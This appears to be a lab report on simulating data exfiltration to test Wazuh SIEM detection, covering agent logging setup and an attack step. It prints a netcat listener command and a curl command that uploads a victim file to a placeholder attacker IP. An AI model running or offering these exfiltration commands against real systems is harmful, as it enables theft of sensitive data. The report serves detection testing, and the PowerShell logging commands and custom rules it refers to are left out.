 # Cybersecurity Simulation and Vulnerability Report: Data Exfiltration

## Overview

This report presents a comprehensive simulation of a data exfiltration attack, leveraging Wazuh for detection and analysis. The simulation outlines the necessary setup on both the victim and attacker machines, the execution of the attack, and the expected alerts in a Security Information and Event Management (SIEM) system.

## Objectives

- To demonstrate the exfiltration of sensitive data using various methods.
- To illustrate the effectiveness of Wazuh in detecting abnormal activities associated with data exfiltration.

## Methodology

### Set Up

#### Victim Machine Configuration

To effectively monitor for potential data exfiltration via PowerShell, we configured the victim machine to collect relevant logs:

1. **PowerShell Logging**: 
   - Launch PowerShell with administrative privileges.
   - Execute the following commands to enable both PowerShell and script block logging.

2. **Wazuh Configuration**: 
   - Update the configuration file located at `C:\Program Files (x86)\ossec-agent\ossec.conf` to direct PowerShell logs to the Wazuh server. Insert the configuration within the `<ossec_config>` block:

   ```xml
   <localfile>
     <location>Microsoft-Windows-PowerShell/Operational</location>
     <log_format>eventchannel</log_format>
   </localfile>
   ```

3. **Restart the Endpoint**: 
   - Apply the configuration changes by restarting the machine.

   ```powershell
   Restart-Computer
   ```

#### Wazuh Server Configuration

On the Wazuh server, we implement custom rules to monitor for data exfiltration attempts:

1. Add rules tailored to detect suspicious behaviors associated with data extraction.
2. Restart the Wazuh server to apply the new detection rules.

### Attack Simulation

This simulation involves a multi-step process to execute the attack, making use of common tools:

1. **Setting Up the Attack Machine**:
   - Initiate a netcat listener on the attacker machine to receive the exfiltrated data:

   ```bash
   nc -lvp 1234 >> File.txt
   ```

2. **Data Exfiltration**:
   - From the victim machine, utilize `curl` to transfer the desired file to the attack machine (replace `path to file` with the actual file path, and `attacker ip:port` with the attacker's IP address and the listening port):

   ```powershell
   curl -T "path to file" "attacker_ip:1234"
   ```

3. **Transfer Confirmation**:
   - Confirm that the file has been successfully transferred to the attack machine.

### Detection and Alerts

Once the data exfiltration attempt is executed, Wazuh should trigger alerts based on the predefined custom rules. The SIEM will log the exfiltration attempt, providing the security team with immediate visibility into the suspicious activity.

## Conclusion

This report concludes the simulation of a data exfiltration attack utilizing Wazuh for detection. By effectively configuring both the victim and attacker environments, we illustrated how data can be exfiltrated and the crucial role of monitoring tools in identifying and responding to such threats. 

It is recommended to routinely review and update detection rules within Wazuh and continuously train security personnel to respond swiftly to potential data exfiltration incidents. 
